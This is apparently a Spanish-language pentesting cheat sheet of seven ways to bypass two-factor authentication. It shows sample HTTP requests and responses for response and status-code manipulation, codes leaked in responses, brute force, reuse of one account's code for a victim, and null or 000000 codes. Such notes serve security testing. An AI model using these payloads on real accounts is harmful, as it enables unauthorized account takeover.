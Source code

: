 # Bypass Two-Factor Authentication

1 - Manipulación de respuestas

si la respuesta es:

        HTTP/1.1 404 Not Found
        ...
        {"code": false}

Prueba éste bypass

        HTTP/1.1 404 Not Found
        ...
        {"code": true}
        
2 - Manipulación de código de estado 

si la respuesta es:

        HTTP/1.1 404 Not Found
        ...
        {"code": false}
        
Prueba éste bypass

        HTTP/1.1 200 OK
        ...
        {"code": false}
        
3 - Código 2FA en respuesta

¡Siempre revisa la respuesta!

        POST /2fa/
        Host: example.com
        ...
        email=example@gmail.com
        
La respuesta es:

        HTTP/1.1 200 OK
        ...
        {"email": "example@gmail.com", "code": "101010"}
        
4 - Fuerza bruta al código 2FA

5 - Falta la validación de integridad del código 2FA, se puede usar el código para cualquier cuenta de usuario

        POST /2fa/
        Host: example.com
        ...
        email=attacker@gmail.com&code=382923
 
 Probar el mismo código para la víctima
 
        POST /2fa/
        Host: example.com
        ...
        email=victim@gmail.com&code=382923        
        
6 - Introduce el código 000000

        POST /2fa/
        Host: example.com
        ...
        code=000000
        
7 - Introduzca el código "null"

        POST /2fa/
        Host: example.com
        ...
        code=null
